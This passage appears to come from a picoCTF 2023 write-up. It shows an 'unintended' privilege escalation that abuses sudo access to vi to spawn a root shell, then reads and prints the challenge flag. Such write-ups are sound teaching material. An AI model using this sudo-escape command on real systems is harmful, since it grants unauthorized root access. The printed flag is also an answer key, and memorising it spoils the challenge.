 ### Unintended solution

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#shell), we can spawn a shell via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230317181418.png)

```shell
picoctf@challenge:~$ sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
[sudo] password for picoctf: 

# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! I'm root!

**Let's `cat` the flag!**
```shell
# ls -lah /root
total 12K
drwx------ 1 root root   23 Mar 16 02:08 .
drwxr-xr-x 1 root root   51 Mar 17 10:06 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:08 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}
```

- **Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}`**

### Intended solution
